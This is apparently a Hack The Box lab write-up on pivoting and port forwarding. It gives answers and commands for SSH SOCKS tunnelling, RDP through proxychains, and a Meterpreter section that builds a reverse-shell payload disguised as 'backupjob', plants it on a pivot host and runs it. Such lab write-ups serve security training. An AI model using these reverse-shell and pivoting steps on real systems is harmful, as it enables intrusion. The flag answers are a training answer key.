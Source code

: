 # HTB-Pivoting_Tunneling_and_Port_Forwarding
## Table of Contents
1. [Choosing The Dig Site & Starting Our Tunnels](#choosing-the-dig-site--starting-our-tunnels)
    1. [Dynamic Port Forwarding with SSH and SOCKS Tunneling](#dynamic-port-forwarding-with-ssh-and-socks-tunneling)
    2. [Remote/Reverse Port Forwarding with SSH](#remotereverse-port-forwarding-with-ssh)
    3. [Meterpreter Tunneling & Port Forwarding](#meterpreter-tunneling--port-forwarding)

## Introduction
### Challenges
1. Reference the Using ifconfig output in the section reading. Which NIC is assigned a public IP address?

    The answer is `eth0`.

2. Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for a host with the IP address of 10.129.10.25, out of which NIC will the packet be forwarded?

    The answer is `tun0`.

3. Reference the Routing Table on Pwnbox output shown in the section reading. If a packet is destined for www.hackthebox.com what is the IP address of the gateway it will be sent to?

    The answer is `178.62.64.1`. It is a default gateaway.

## Choosing The Dig Site & Starting Our Tunnels
### Dynamic Port Forwarding with SSH and SOCKS Tunneling
#### Challenges
1. You have successfully captured credentials to an external facing Web Server. Connect to the target and list the network interfaces. How many network interfaces does the target web server have? (Including the loopback interface)

    First we can ssh by using the credential provided. Then in there, we can type `ifconfig`. The answer is `3`.

2. Apply the concepts taught in this section to pivot to the internal network and use RDP (credentials: victor:pass@123) to take control of the Windows target on 172.16.5.19. Submit the contents of Flag.txt located on the Desktop.

    To solve this, we can use dynamic port forwarding with ssh.

    ```bash
    ssh -D 9050 ubuntu@10.129.175.61
    ```
    Then we can use xfreerdp with proxychains.
    
    ```bash
    proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
    ```
    The answer is `N1c3Piv0t`.

### Remote/Reverse Port Forwarding with SSH
#### Challenges
1. Which IP address assigned to the Ubuntu server Pivot host allows communication with the Windows server target? (Format: x.x.x.x)

    After we ssh with the credential, we can type `ifconfig` and look `ens224` inet result. The answer is `172.16.5.129`.

2. What IP address is used on the attack host to ensure the handler is listening on all IP addresses assigned to the host? (Format: x.x.x.x)

    The answer is `0.0.0.0`. That ip will listen connection from anywhere.

### Meterpreter Tunneling & Port Forwarding
#### Challenges
1. What two IP addresses can be discovered when attempting a ping sweep from the Ubuntu pivot host? (Format: x.x.x.x,x.x.x.x)

    To solve this, we can use `msfvenom` and `msfconsole`. First, we create payload for ubuntu pivot host. It is a reverse shell. So when its executed, we will get a shell session.

    ```bash
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.131 -f elf -o backupjob LPORT=8080
    ```
    Then we can use scp to transfer it into out pivot host.

    ```bash
    scp backupjob ubuntu@10.129.175.61:/home/ubuntu/
    ```
    Still in the out attack host, we set listener for our reverse shell by using metasploit.

    ```bash
    [msf](Jobs:0 Agents:0) >> use exploit/multi/handler
    [*] Using configured payload generic/shell_reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
    lhost => 0.0.0.0
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 8080
    lport => 8080
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x64/meterpreter/reverse_tcp
    payload => linux/x64/meterpreter/reverse_tcp
    [msf](Jobs:0 Agents:0) exploit(multi/handler) >> run
    ```

    Then in the pivot host, we can change file permission and executed it.

    ```bash
    chmod +x backupjob
    ./backupjob
    ```
    If success out listener will catch it and create meterpreter session. In there we can do ping sweep.

    ```bash
    (Meterpreter 1)(/home/ubuntu) > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
    ```
    ![alt text](Assets/Starting1.png)

    Based on that, we got 2 ip. So the answer is `172.16.5.19,172.16.5.129`.

2. Which of the routes that AutoRoute adds allows 172.16.5.19 to be reachable from the attack host? (Format: x.x.x.x/x.x.x.x)

    To solve this, we can run `autoroute` module.

    ```bash
    (Meterpreter 1)(/home/ubuntu) > run autoroute -s 172.16.5.0/23
    ```

    The answer is `172.16.5.0/255.255.254.0`.
